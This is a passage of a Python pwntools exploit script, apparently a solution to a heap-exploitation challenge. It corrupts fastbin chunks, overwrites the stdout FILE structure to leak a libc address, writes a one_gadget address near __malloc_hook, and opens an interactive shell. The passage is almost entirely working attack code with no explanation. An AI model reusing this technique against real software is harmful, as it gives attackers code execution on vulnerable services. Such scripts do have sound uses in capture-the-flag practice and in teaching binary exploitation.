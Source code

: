 ```python
    p.recvuntil("choice:")
    p.sendline("4")
    p.recvuntil(":")
    p.sendline(str(index))
    p.recvuntil(":")
    p.sendline(str(size))
    p.recvuntil(":")
    p.send(content)

def free(index):
    p.recvuntil("choice:")
    p.sendline("3")
    p.recvuntil(":")
    p.sendline(str(index))

def main():

    alloc(0,0x20)
    alloc(1,0x20)
    alloc(2,0x10)
    edit(2,0x10,p64(0)+p64(0x31))
    alloc(3,0x60)
    alloc(4,0x10)
    alloc(5,0x10)

    free(3)
    free(0)
    free(1)
    edit(0,0x31,'a'*0x28+p64(0x31)+p8(0x70))
    alloc(6,0x20)
    alloc(7,0x20)
    edit(7,0x10,p64(0)+p64(0x91))
    free(3)

    edit(7,0x10,p64(0)+p64(0x71))
    edit(3,0x2,p16(0x55dd))
    alloc(1,0x60)
    alloc(2,0x60)
    payload='a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00'
    edit(2,len(payload),payload)
    leak=p.recvuntil('Done')
    leak_addr=u64(leak[0x41:0x49].ljust(8,'\x00'))
    base=leak_addr+0x20-libc.symbols['_IO_2_1_stdout_']

    alloc(6,0x60)
    alloc(7,0x60)
    alloc(8,0x60)
    free(6)
    free(7)
    edit(6,0x8,p64(base+0x3c4aed))
    alloc(8,0x60)
    alloc(8,0x60)
    alloc(9,0x60)
    payload = 'a'*0x13 + p64(0xf1147+base)
    edit(9,len(payload),payload)
    alloc(0,0x60)
    p.interactive()

if __name__ == '__main__':
    while(True):
        try:
            main()
            break
```